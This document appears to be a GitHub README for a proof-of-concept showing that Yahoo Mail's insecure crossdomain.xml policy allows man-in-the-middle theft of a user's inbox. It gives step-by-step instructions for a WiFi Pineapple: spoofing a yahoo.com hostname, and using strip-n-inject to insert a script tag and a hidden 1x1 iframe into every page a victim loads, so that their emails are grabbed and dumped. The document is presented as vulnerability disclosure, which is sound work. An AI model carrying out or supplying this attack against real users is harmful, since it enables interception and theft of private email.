 ## YMail-Pineapple

A couple years back [I mentioned](http://blog.saynotolinux.com/blog/2014/03/01/yahoos-pet-show-of-horrors-abusing-a-crossdomain-proxy-to-leak-a-users-email/) that Yahoo! Mail is vulnerable to active MITM attacks due to problems with its `crossdomain.xml` policy. Specifically, Yahoo Mail policy is

```xml
<cross-domain-policy>
    <allow-access-from domain="*.yahoo.com" secure="false"/>
</cross-domain-policy>
```

[Per Adobe](https://www.adobe.com/devnet/adobe-media-server/articles/cross-domain-xml-for-streaming.html#articlecontentAdobe_numberedheader_0) "using \[secure=\]false in an HTTPS policy file is not recommended because this compromises the security offered by HTTPS."

Note that the ability to give insecure documents privileged access to secure resources isn't unique to Flash's crossdomain policies. [You can make the same mistake with CORS headers (see "Breaking HTTPS".)](http://blog.portswigger.net/2016/10/exploiting-cors-misconfigurations-for.html)

Anywho, since Yahoo still hasn't fixed this I figured I'd demonstrate that this isn't just a handwavey warning, and that this makes Yahoo Mail trivially MITMable.

Putting aside aside my concerns about the security of its code, I own a Wifi Pineapple Mark V so the instructions assume you're using one as well. All of this could be reasonably adapted to any other router that can run vanilla OpenWRT.

## Configuring

* Make sure your Pineapple is connected to the internet via ethernet or a second wifi radio
* Install the [strip-n-inject infusion](https://forums.hak5.org/index.php?/topic/30673-support-strip-n-inject/)
** I needed to run `mkdir -p /sd/tmp/` to get `strip-n-inject` to start but YMMV
* SSH into your Pineapple and add `127.0.0.1 spoof.yahoo.com` to `/etc/hosts` so it will read from our internal webserver
* `rsync` the contents of this repo to `/www/` on your Pineapple
* Configure `strip-n-inject` to inject the following onto each page:

```html
<script src="http://spoof.yahoo.com/receiver.js"></script>
<iframe width="1" height="1" src="http://spoof.yahoo.com/grabberFrame.html"></iframe>
```

* If you don't want to dump the inbox contents to the current page, edit `grabber.js` to do something other than `postMessage()` and remove the `receiver.js` line from `strip-n-inject`'s config


## Running

At this point you should be ready to test. Make sure you're logged in on YMail and navigate to http://www.cnn.com/ while connected to the Pineapple's public interface. You should see a box like

![Emails dumped into www.cnn.com](/screenshot.png)

If you don't, make sure `strip-n-inject` is configured correctly and check your browser console.

## Fixing

This will no longer work once Yahoo removes `secure="false"` from their `crossdomain.xml`s.
